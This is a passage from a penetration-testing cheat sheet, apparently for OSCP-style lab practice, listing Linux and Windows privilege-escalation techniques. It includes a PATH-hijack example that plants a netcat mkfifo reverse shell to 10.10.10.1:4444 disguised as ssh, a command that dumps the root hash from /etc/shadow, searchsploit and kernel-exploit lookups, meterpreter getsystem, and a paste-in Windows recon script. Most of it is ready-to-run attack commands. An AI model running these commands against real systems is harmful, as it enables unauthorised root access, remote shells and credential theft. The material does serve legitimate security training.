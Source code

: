 -   You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable
    to execute your command instead.  In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on 
    port 4444.
    
         set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
         echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
         chmod +x ssh

-   SearchSploit  

              searchsploit –uncsearchsploit apache 2.2  
              searchsploit "Linux Kernel"  
              searchsploit linux 2.6 | grep -i ubuntu | grep local  
              searchsploit slmail

 -   Kernel Exploit Suggestions for Kernel Version 3.0.0  
 
     `./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0`

-   Precompiled Linux Kernel Exploits  - ***Super handy if GCC is not installed on the target machine!***

    [*https://www.kernel-exploits.com/*](https://www.kernel-exploits.com/)    

-   Collect root password

    `cat /etc/shadow |grep root`
    
-   Find and display the proof.txt or flag.txt - LOOT!

            cat `find / -name proof.txt -print`

-   Windows Privilege Escalation
    --------------------------------------------------------------------------------------------------------------------------

-   Windows Privilege Escalation resource
    http://www.fuzzysecurity.com/tutorials/16.html

-   Metasploit Meterpreter Privilege Escalation Guide
    https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/

-   Try the obvious - Maybe the user is SYSTEM or is already part of the Administrator group:  
    
    `whoami` 
    
    `net user "%username%"`

-   Try the getsystem command using meterpreter - rarely works but is worth a try.

    `meterpreter > getsystem`

-   No File Upload Required Windows Privlege Escalation Basic Information Gathering (based on the fuzzy security tutorial and windows_privesc_check.py).
     
     Copy and paste the following contents into your remote Windows shell in Kali to generate a quick report:

         @echo --------- BASIC WINDOWS RECON ---------  > report.txt
         timeout 1
         net config Workstation  >> report.txt
         timeout 1
         systeminfo | findstr /B /C:"OS Name" /C:"OS Version" >> report.txt
         timeout 1
         hostname >> report.txt
         timeout 1
         net users >> report.txt
         timeout 1
         ipconfig /all >> report.txt
         timeout 1
         route print >> report.txt
         timeout 1